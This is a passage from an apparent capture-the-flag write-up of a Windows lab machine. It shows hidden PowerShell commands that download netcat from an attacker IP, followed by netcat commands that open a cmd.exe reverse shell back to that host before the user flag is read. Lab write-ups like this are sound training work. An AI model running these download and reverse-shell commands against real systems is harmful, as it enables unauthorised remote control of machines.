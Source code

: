 ![rce](/images/buff/rce.png)


This is still a limited shell and can be quickly observed as soon as trying to change to another directory.

A netcat reverse shell can be used to get a proper shell and this can be downloadd from the attacker host.

```
powershell -w hidden -noni -nop -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45/nc64.exe','C:\Users\public\nc64.exe')"

powershell -w hidden -noni -nop -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45/nc.exe','C:\Users\public\nc.exe')"

C:\Users\public\nc64.exe 10.10.14.45 443 -e cmd.exe

C:\Users\public\nc.exe 10.10.14.45 443 -e cmd.exe
```

At the point the user flag can be read.
